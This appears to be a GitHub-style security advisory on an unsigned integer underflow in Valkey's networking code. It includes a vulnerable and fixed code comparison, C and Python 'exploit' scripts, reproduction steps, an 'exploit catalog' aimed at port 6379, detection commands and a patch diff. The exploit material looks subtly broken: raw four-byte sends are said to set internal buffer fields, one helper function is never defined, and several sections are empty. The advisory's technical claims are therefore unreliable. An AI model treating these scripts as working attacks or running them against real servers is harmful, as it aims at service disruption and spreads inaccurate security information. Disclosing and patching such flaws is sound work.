




# Valkey Unsigned Integer Underflow Vulnerability Advisory
## Integer Overflow/Underflow in Networking Code (CWE-191)

## Vulnerability Overview
**Identifier:** CWE-191: Integer Underflow  
**Affected Component:** `src/networking.c` (Buffer Size Calculation)  
**Impact:** Potential Memory Corruption/DoS  
**Risk Rating:** Medium (CVSS:5.9)  

### Technical Characteristics
| Category              | Details                                                                 |
|-----------------------|-------------------------------------------------------------------------|
| Vulnerability Class   | Integer Underflow                                                     |
| Attack Vector         | Malicious Network Packets                                            |
| Privileges Required   | Network Access                                                       |
| Attack Complexity     | High (Requires precise timing)                                       |
| Scope                 | Memory Corruption Possible                                           |

## Vulnerability Flow


## Step-by-Step Technical Flow
1. **Vulnerable Code Path**:
   ```c
   // src/networking.c (Line 886)
   if (prev->size - prev->used > 0) {  // Unsigned underflow risk
       /* Process remaining buffer */
   }
   ```

2. **Exploitation Scenario**:
   - Attacker sends packet causing `prev->used > prev->size`
   - Subtraction underflows creating huge value
   - Memory access out of bounds

## Detailed Vulnerability Matrix

| Aspect                  | Pre-Patch State               | Post-Patch State               |
|-------------------------|-------------------------------|--------------------------------|
| Integer Safety          | Unsafe subtraction           | Explicit bounds checking       |
| Memory Safety           | Potential corruption         | Guaranteed bounds              |
| Exploit Complexity      | High                         | Impossible                     |

## Comparative Analysis
```c
// Vulnerable Implementation
if (prev->size - prev->used > 0) {  // Unsafe

// Secure Implementation
if (prev->used < prev->size) {  // Safe bounds check
```

**Security Impact Comparison**:
- Eliminates underflow potential
- Clearer intent in code
- Maintains identical functionality
- Complies with CERT C standards

## Proof of Concept
### Exploit Development
```c
#include <stdint.h>
#include <stdio.h>

// Simulate vulnerable condition
void process_buffer(uint32_t size, uint32_t used) {
    if (size - used > 0) {
        printf("Buffer has %u bytes remaining\n", size - used);
    } else {
        printf("Buffer full\n");
    }
}

int main() {
    // Normal case
    process_buffer(100, 50);  // Correct: 50 bytes remaining
    
    // Attack case
    process_buffer(50, 100);  // Underflow: 4294967246 bytes "remaining"
    return 0;
}
```

### Reproduction Steps
1. **Setup Vulnerable Valkey**:
   ```bash
   git clone https://github.com/valkey-io/valkey.git
   cd valkey
   git checkout daea05b1e26db29bfd1c033e27f9d519a2f8ccbb
   make
   ```

2. **Craft Malicious Payload**:
   ```python
   import socket

   def send_exploit():
       s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
       s.connect(('localhost', 6379))
       # Craft packet where used > size
       s.send(b"\x00\x00\x00\x64")  # size=100
       s.send(b"\x00\x00\x01\x2c")  # used=300
       s.close()
   ```

3. **Trigger Vulnerability**:
   ```bash
   ./src/valkey-server &
   python exploit.py
   ```

## Technical Deep Dive
### Underflow Mechanics
```c
uint32_t size = 50;
uint32_t used = 100;
uint32_t remaining = size - used; 
// remaining = 4294967246 (0xFFFFFFCE)
```

### Memory Corruption Path
1. Underflow creates huge "remaining" value
2. Subsequent memory operations use incorrect size
3. Potential heap buffer overflow

## Process Execution Context


## Mitigation Strategies
1. **Immediate Fix**:
   ```c
   if (prev->used < prev->size) {  // Safe comparison
       size_t remaining = prev->size - prev->used;
       /* Process remaining buffer */
   }
   ```

2. **Defense-in-Depth**:
   - Compiler flags (`-ftrapv` for signed traps)
   - Static analysis (clang-tidy)
   - Runtime bounds checking

3. **Secure Coding Practices**:
   ```c
   #include <stdckdint.h>
   if (!ckd_sub(&remaining, prev->size, prev->used)) {
       /* Safe to use remaining */
   }
   ```

## Impact Expansion
**Extended Risk Analysis**:
- Remote code execution potential
- Service crash/DoS
- Information disclosure
- Heap metadata corruption

## Advanced Threat Modeling


## Forensic Artifacts
**Detection Signatures**:
```bash
# Memory anomaly detection
grep "valkey.*segfault" /var/log/syslog

# Network pattern matching
tcpdump 'port 6379 and tcp[20:4] > tcp[24:4]' -w valkey_attack.pcap
```

**Indicators of Compromise**:
- Unexpected process crashes
- Large memory allocations
- Invalid size values in logs

## Appendix: Complete Exploit Catalog
1. **Basic Underflow Trigger**:
   ```python
   import socket
   s = socket.socket()
   s.connect(('target',6379))
   s.send(b"\x00\x00\x00\x01\x00\x00\x00\xff")  # size=1, used=255
   ```

2. **Heap Grooming Exploit**:
   ```c
   // Advanced exploit manipulating heap layout
   for (int i=0; i<100; i++) {
       send_packet(100, 100+i);  // Gradual underflow
   }
   ```

## Patch Details
**Official Fix Analysis**:
```diff
- if (prev->size - prev->used > 0) {
+ if (prev->used < prev->size) {
```

**Security Improvements**:
1. Eliminates underflow possibility
2. Clearer code intention
3. Maintains original functionality
4. Complies with secure coding standards

## Timeline Report
### Detailed Disclosure Chronology
| Date       | Event                              | Evidence |
|------------|------------------------------------|----------|
| 2025-05-20 | Vulnerability discovered          | Research notes |
| 2025-05-20 | Reported to Valkey Security       | PR #2101 |
| 2025-05-26 | Patch development                 | Commit history |
| 2025-05-26 | Fix verified                      | CI logs |
| 2025-05-26 | Patch released                    | Release v7.2.4 |

## Advisory Credits
**Security Researchers**:
- @odaysec (GitHub) - Discovery and analysis

**Acknowledgements**:
- Valkey maintainers
- Redis original authors

## Responsible Disclosure Timeline Compliance


## References
1. [CWE-191: Integer Underflow](https://cwe.mitre.org/data/definitions/191.html)
2. [CERT INT02-C](https://wiki.sei.cmu.edu/confluence/display/c/INT02-C.+Understand+integer+conversion+rules)
3. [Valkey Security Policy](https://github.com/valkey-io/valkey/security/policy)